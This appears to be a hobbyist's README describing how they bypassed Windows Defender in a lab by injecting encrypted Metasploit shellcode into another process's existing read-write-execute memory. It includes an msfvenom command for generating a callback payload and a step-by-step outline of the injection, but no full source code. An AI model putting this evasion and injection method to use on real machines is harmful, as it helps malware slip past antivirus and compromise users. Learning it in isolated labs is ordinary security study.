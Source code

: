 ### Introduction

So I don't know why, but i've done some malware analysis (still a noob btw), i've also tried some malware development(still a noob btw) in an environment 
where windows defender was always disabled and i've never tried bypassing it. So I decided to start with something simple.
I started with a simple google search...How to bypass windows defender and i stumbled on 2 blog post, one was related to Loki C2 and the 
other with injecting shellcode inside a process that already had READ,WRITE AND EXECUTE memory sections.

And before you say it, yes, i know, it's already a known fact, it's easy to bypass windows...but to do it yourself is still learning. It's one thing
to just take a working code and just run it, but it's another thing to take the code understand it and modify it to the way you like.
That's why i learned reverse engineering, because you need to be able to understand the inner workings of anything you touch. I think
that's what make the difference between people in this field!

I guess you already know which one I chose to start with, i chose the latter.
Here's the blog I used as a reference : https://medium.com/@s12deff/bypass-windows-defender-executing-shellcode-using-freeloaderinjector-7deeba8796e2
In that blog he use the undocumented API : `ntdll.dll`. I didn't want to just copy and paste it, so i adapted is code to use it with the documented API
and I removed unnecessary stuff, which provided me a good practice and refresher.


### Setup

- Kali VM
- Windows 10 VM
- Visual Studio
- Metasploit
- Your Head
- ChatGPT (for reference of course😆)


### Walkthrough

1. So first, I started by generating a shellcode with msfvenom : `msfvenom -p <PAYLOAD> LHOST=<YOUR_IP> LPORT=<PORT> -f c > <NAME>.c`
2. Encrypt the payloadm I have an encryptor program that i used, you can find it on my Github (you can create your own too) : `Crypter`
3. The main program will
    - Get an handle on each processes and duplicate them (for future implementations i duplicate them, to be able to perform additionnal executions)
    - Check if the process has RWX memory section and get that address in memory
    - Decrypt the payload and inject it into that section
4. Build the executable as Release and upload it to your windows vm

![POC](poc.png)

### Conclusion

I think, that next i want to either try a dll sideloading and then move on to using Loki with electron apps that also uses dll sideloading attacks,
there's a good write-up on it, if you want to take a head start!

